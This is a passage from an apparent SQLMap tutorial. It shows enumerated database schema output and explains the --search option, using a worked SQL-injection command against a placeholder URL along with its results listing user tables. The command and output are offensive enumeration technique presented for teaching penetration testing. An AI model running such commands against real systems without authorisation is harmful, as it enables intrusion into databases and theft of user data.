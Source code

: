     Database: testdb
    Table: data
    [2 columns]
    +---------+---------+
    | Column  | Type    |
    +---------+---------+
    | content | blob    |
    | id      | int(11) |
    +---------+---------+

    Database: testdb
    Table: users
    [3 columns]
    +---------+---------------+
    | Column  | Type          |
    +---------+---------------+
    | id      | int(11)       |
    | name    | varchar(500)  |
    | surname | varchar(1000) |
    +---------+---------------+

### Searching for Data

When dealing with complex database structures with numerous tables and columns, we can search for databases, tables, and columns of interest, by using the `--search` option. This option enables us to search for identifier names by using the `LIKE` operator. For example, if we are looking for all of the table names containing the keyword `user`, we can run SQLMap as follows:

`sqlmap -u "http://www.example.com/?id=1" --search -T user`

    ...SNIP...
    [14:24:19] [INFO] searching tables LIKE 'user'
    Database: testdb
    [1 table]
    +-----------------+
    | users           |
    +-----------------+

    Database: master
    [1 table]
    +-----------------+
    | users           |
    +-----------------+

    Database: information_schema
    [1 table]
    +-----------------+
    | USER_PRIVILEGES |
    +-----------------+
